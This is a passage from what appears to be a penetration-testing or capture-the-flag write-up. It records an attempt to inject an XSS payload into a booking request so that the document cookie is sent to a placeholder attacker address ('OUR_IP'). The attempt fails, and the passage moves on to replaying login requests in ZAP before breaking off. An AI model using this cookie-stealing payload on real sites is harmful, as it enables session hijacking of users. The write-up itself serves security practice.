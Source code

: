This can be done by injecting a payload into the booking request.

Payload: `311<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`

![](./attachments/Pasted%20image%2020220515151948.png)

Sadly we get an error, the database does not accept the input.

---
## Pen-testing login page:
We replay the request with ZAP Manual Request Editor in order to see the responses from the server when the login is correct and incorrect.

Incorrect login:

